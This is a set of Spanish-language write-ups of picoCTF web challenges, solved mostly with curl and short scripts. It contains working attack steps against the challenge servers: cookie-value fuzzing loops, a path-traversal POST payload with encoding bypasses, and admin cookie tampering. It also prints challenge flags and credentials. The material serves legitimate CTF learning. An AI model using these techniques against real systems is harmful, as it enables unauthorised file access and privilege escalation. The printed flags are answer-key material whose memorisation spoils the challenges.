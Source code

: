 ## GET aHEAD

Nos dan una web que tiene dos botones "elige rojo" y "elige azul", si le das a uno se cambia el color del fondo.
Con el azul lo toma como peticion POST a index.php mientras que verde es GET a index.php?. Inspeccionando el codigo fuente con el curl no he encontrado
ninguna flag ni ruta escondida. Examinando las peticiones con las herramientas del navegador tampoco encontre gran cosa. Estaba algo perdido hasta que me 
dio por hacer un curl -I para ver si habia mas informacion en los headers y di con la flag.
```bash
~:$ curl http://mercury.picoctf.net:53554  -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```
Tiene sentido porque el titulo del reto dice de HEAD y los colores daban la pista de probar a cambiar los metodos (get = rojo, post = azul )
Con burpsuite cambie a HEAD y me salio lo mismo (el el metodo que usa el curl -I).

--------------------------------------------------------------------

## COOKIES

En esta web nos pone un "buscador de cookies" y la palabra "snickerdoodle" de ejemplo (supongo que sera una marca de cookies). Si pongo esa misma palabra
dice "I love snickerdoodle cookies!". Como estamos hablando todo el reto de las cookies, mire en el navegador en Cookies. Pone 0. Si le das a "home",
te sale el bscador otra vez y en cockies un -1. Si pongo otros numeros me sale el mensaje de "I love" otros tipos de cookies asi que supongo que 
habra que fuzzear o applicar algun tipo de sqli sencilla. Replicaos con curl la peticion:

```console
~:$ curl -s http://mercury.picoctf.net:6418 -H "Cookie: name=0"  -L | html2text
**** Cookies ****
×  That is a cookie! Not very special though...
I love snickerdoodle cookies!
```
Con un script de bash se pueden probar muchos numeros
```bash
for numero in $(seq 1 30); do
    peticion=$(curl -s "http://mercury.picoctf.net:6418/" -H "Cookie: name=$numero" -L | html2text )
    if ! echo $peticion | grep "Not very special" > /dev/null; then
        echo  "[Cookie nº -> $numero] $peticion" 
        exit 0
    fi  
done
```
```console
~:$ bash cookie.sh 
[Cookie nº -> 18] 
Flag: picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```
Para practicar quise hacer el equivalente en python.
```python
for number in range(20):
    req = requests.get("http://mercury.picoctf.net:6418/", cookies = {"name":str(number)})
    if not "That is a cookie! Not very special though..." in req.text:
        print(number)
```
--------------------------------------------------------------------

## Insp3ct0r

Aqui nos dan la web de alguien que acaba de empezar a programar "Mi primera web :)"
COn el *curl* (viendo el codigo fuente) tenemos 1/3 de la flag -> ```picoCTF{tru3_d3``` Tambien nos dan rutas a su .js y su .css, que al verlas
obetenemos el resto ```picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}```

Otros retos igauales son: **"Inspect HTML"**

--------------------------------------------------------------------

## Where are the robots.

Este reto lo resolvi muy rapidamente ya que se que hay una ruta llamada *"/robots.txt"* (referenciada por el titulo del reto) que suele contener rutas
ocultas (que no indexen los buscadores como Google). La ruta que me dio es */477ce.html* y ahi estaba la flag.

Otros retos igauales son: **"Roboto Sans"** (en este la ruta de la flag salia en base64) 

--------------------------------------------------------------------

## Search Source

Nos dan una web y nos dicen que en alguna parte hay un "artefacto importante" (la flag). Podemos hacerle un curl a la web, sacar rutas y mirarlas una por
una, pero una manera mas rapida de hacer esto es con ```wget -m http://saturn.picoctf.net:50761/``` que es copiar todo el codigo fuente de la web (el 
de todas y cada una de las rutas. De ahí te crea una carpeta a la que luego se le puede hacer un ```grep -riE "pico" ```para que busque de manera 
recursiva donde está la flag en toooodo el codigo. Al final la encontré en el "css" o sea en el sitio menos pintado.

--------------------------------------------------------------------

## Local Authority

Esta simple web nos da un panel de autenticación. Probe las credenciales por defecto como "admin:admin" y demas pero no. Al mirar el codigo fuente, tira
de "login.php" como es un php intente la vulberabilidad de type juggling (de php). No funcionó
> **Type juggling** -> Si la contraseña se valida con un == en vez de con === se puede saltar la validacion poniendo "true" como contraseña.

La solucion era mas chorra de lo que parece. Puse la ruta ```http://saturn.picoctf.net:49699/login.php``` y me dio el codigo fuente del php (esto no
suele pasar en la vida real ya que este se interpreta directamente). No encontré la contraseña pero si otra ruta "secure.js". Ahi dentro estaban las 
credenciales "admin:strongPassword098765". Me loguee con eso y me dieron la flag.

--------------------------------------------------------------------

## Forbidden paths

Esta web nos dice que si le damos uno de los tres txt (de tres novelas clasicas anglosajonas) nos lo muestra y asi es. Antes de los tres libos salen ".."
como de ruta anterior... En esta web se presenta la vulnerabilidad de LFI o local file inclusion
> **LFI** -> la máquina nos muestra parte de su contenido. Si se trampea se puede leer cualquier otro archivo.

La manera de trampear se llama **path traversal**. Segun dice estamos ahora en ```/usr/share/nginx/html``` y hay que ir a ```/flag.txt```
O sea hacia atrás. Hay que decir que el ascript que maneja esto es "read.php" al que habia que pedirle el parámetro "filename" por POST
```console
~:$ curl -s -X POST "http://saturn.picoctf.net:52683/read.php" -d "filename=divine-comedy.txt" | head -n 20  # -> el libro
~:$curl -s -X POST "http://saturn.picoctf.net:52683/read.php" -d "filename=../../../../../../../flag.txt" # -> la flag
```
Si no nos hubieran dejado habria tenido que tirar de bypases como poner ....//....// si nos quitan los ../ para que se quede en:  ../../../../ o 
urlencodear los "/" a "%252f..%252f..%252f"

-------------------------------------------------------------------

## Power cookie

Nos dan una web que tiene un link llamado "coninua como invitado", ahi nos dice que no hay contenido disponible para invitados. El sistema sabe que somos
invitados por la cookie. En cookies sale una con el parametro "isAdmin=0", si lo cambiamos a 1 nos deja ver la flag.










